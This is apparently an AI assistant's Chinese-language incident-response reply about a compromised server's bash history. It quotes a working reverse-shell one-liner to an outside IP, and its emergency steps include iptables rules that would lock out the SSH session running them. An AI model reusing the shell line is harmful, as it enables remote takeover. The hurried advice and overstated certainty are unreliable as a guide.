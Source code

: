 
我来分析这个可疑的bash历史记录，这确实看起来像是服务器被入侵的迹象。让我创建一个详细的安全分析报告。

---

<details><summary>Edit file: docs/42服务器安全防护.md</summary></details>

---

<think><details><summary>Thought Process</summary></details></think>

---

## 🚨 **紧急安全警报！服务器已被完全入侵！**

我已经分析了您提供的bash历史记录，这是一个**极其严重的安全入侵事件**。我已经创建了详细的安全防护报告 `docs/42服务器安全防护.md`。

### ⚡ **立即威胁评估**

**🔴 危险等级：极高 - 服务器已被完全控制**

关键发现：
1. **反向Shell攻击**: `bash -i >& /dev/tcp/196.251.84.241/1234 0>&1`
   - 攻击者建立了到外部IP (196.251.84.241) 的反向shell
   - **执行了至少2次**，表明持续性控制
   - 攻击者可以**完全控制您的服务器**

2. **文件搜索**: `find / -name qygm.png`
   - 攻击者在寻找特定文件
   - 可能是后门、载荷或数据窃取目标

3. **系统侦察**: 多次ls、pwd命令
   - 攻击者在探索系统结构
   - 为进一步攻击做准备

### 🚨 **立即行动（1小时内执行）**

**1. 马上隔离服务器**
```bash
# 通过SSH连接到服务器后立即执行
ssh -i /Users/a1/work/id_rsa root@106.53.134.90

# 断开所有网络连接
sudo iptables -P INPUT DROP
sudo iptables -P OUTPUT DROP
sudo iptables -P FORWARD DROP
```

**2. 备份关键数据**
```bash
# 紧急备份（数据需要安全扫描）
tar -czf /tmp/emergency_backup_$(date +%Y%m%d).tar.gz /etc /var/log /root
```

**3. 更改所有密码**
```bash
# 立即更改root密码
passwd root
```
